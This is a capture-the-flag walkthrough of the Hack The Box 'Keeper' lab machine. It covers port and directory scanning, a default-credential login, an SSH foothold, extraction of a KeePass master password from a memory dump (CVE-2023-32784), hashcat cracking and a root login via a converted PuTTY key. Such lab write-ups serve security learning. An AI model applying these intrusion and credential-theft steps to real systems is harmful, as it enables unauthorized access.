# Hack The Box : Keeper
## Difficulty : Easy
## OS : Linux

## Enumeration:

I'll start with a port scan.

```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.229.41
```



I'll take a look at the web server on port 80.



Looks like we need to add the subdomain to our "/etc/hosts" file.



Using gobuster we find a directory that takes us to another login page.

```bash
gobuster dir -u http://tickets.keeper.htb/rt/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -b 404,302
```





We can use default credentials to logi in.

```markdown
root:password
```

## Foothold:



Looking arount the web site we find a user and his password.



We can use those credentials to login via ssh to the target.

```bash
ssh lnorgaard@keeper.htb 
Welcome2023!
```



We can get the user flag.

```bash
ls
cat user.txt
```

## We got the user flag!

## Privilege Escalation

We find an email in "/var/email" that reads:

```markdown
Lise,

Attached to this ticket is a crash dump of the keepass program. Do I need to
update the version of the program first...?

Thanks! 

------------=_1684924638-1803-2
Content-Type: text/html; charset="utf-8"
X-RT-Original-Encoding: utf-8

<b>Wed May 24 12:37:18 2023: Request <a href="http://keeper.htb/rt/Ticket/Display.html?id=300000">300000</a> was acted upon by root.</b>
<br>
<table border="0">
<tr><td align="right"><b>Transaction:</b></td><td>Ticket created by root</td></tr>
<tr><td align="right"><b>Queue:</b></td><td>General</td></tr>
<tr><td align="right"><b>Subject:</b></td><td>Issue with Keepass Client on Windows </td></tr>
<tr><td align="right"><b>Owner:</b></td><td>lnorgaard</td></tr>
<tr><td align="right"><b>Requestors:</b></td><td>webmaster@keeper.htb</td></tr>
<tr><td align="right"><b>Status:</b></td><td>new</td></tr>
<tr><td align="right"><b>Ticket URL:</b></td><td><a href="http://keeper.htb/rt/Ticket/Display.html?id=300000">http://keeper.htb/rt/Ticket/Display.html?id=300000</a></td></tr>
</table>
<br/>
<br/>
Lise,<br>
<br>
Attached to this ticket is a crash dump of the keepass program. Do I need to update the version of the program first...?<br>
<br>
Thanks! 
```

In the user directory I found a zip called RT30000.zip. After unziping it I got 2 files:

```bash
KeePassDumpFull.dmp  
passcodes.kdbx
```
I'll transfer them to my machine.

Target:
```bash
python3 -m http.server 9999
```

Host:
```bash
wget http://0.0.0.0:9999/KeePassDumpFull.dmp  
wget http://0.0.0.0:9999/passcodes.kdbx
``` 

Using the following https://github.com/CTM1/CVE-2023-32784-keepass-linux and the powershell built in kali I managed to extract this :



Searching on the web we get the full name of the dish : rødgrød med fløde .

We can get the hash of the password from "passcodes.kdbx".

```bash
keepass2john passcodes.kdbx > keepasshash
cut -d ":" keepasshash -f 2 > hash_only
```

Now that we have a partial password and the hash I'll try to crack it.


```bash
hashcat -m 13400 hash_only -a 3 "rødgrød med fløde" -O
```




Looks like we got our password.

```markdwon
rødgrød med fløde
```

We can use this password to decode the passcodes.kdbx file via keepassxc.

```bash
sudo keepassxc
```



We can make the PuTTy user key into an id_rsa key and login as root.

```bash
#Put the contents of note in a file
puttygen pu.ppk -O private-openssh -o id-rsa
ssh root@keeper.htb -i id-rsa
```


It worked.

We can get the root.flag

```bash
cat /root/root.txt
```

## We got the root flag!